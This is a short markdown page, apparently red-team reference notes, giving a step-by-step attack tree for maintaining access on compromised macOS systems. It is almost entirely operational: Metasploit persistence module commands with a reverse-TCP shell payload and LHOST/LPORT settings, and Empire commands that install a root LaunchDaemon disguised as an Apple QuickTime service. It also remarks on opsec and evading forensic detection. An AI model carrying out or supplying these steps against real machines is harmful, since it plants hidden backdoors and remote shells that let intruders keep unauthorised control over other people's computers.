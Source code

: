 # Maintaining access on macOS

## Attack tree

```text
1 Maintain access on macOS using meterpreter
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/osx/local/persistence (AND)
    1.3 Set RUN_NOW to true (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show payloads (AND)
    1.6 Inject payload (such as osx/x86/shell_reverse_tcp) as a service with > set PAYLOAD [payload] (AND)
    1.7 Set LHOST and LPORT
    1.8 > exploit
    1.9 Copy the three commands given for cleanup later
2 Maintain access on macOS using empire 
    2.1 Empire agent with high integrity (root) running on macOS (see privilige escalation on macOS tree) (AND)
    2.2 > interact with agent
    2.3 > usemodule persistence/osx/Launchdaemonexecutable
    2.4 > info (to see all options)
    2.5 > set DaemonLocation [absolute path] (for example /Library/Application Support/QuickTimeDaemon)
    2.6 > set DaemonName [value] (com.apple.QuickTime in our case)
    2.7 > set Listener [value] (http in our case)
    2.8 > execute
```

## Notes

* The empire method reports it is not opsec safe. A forensics artist may be able to tell we were there.

## Resources

* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)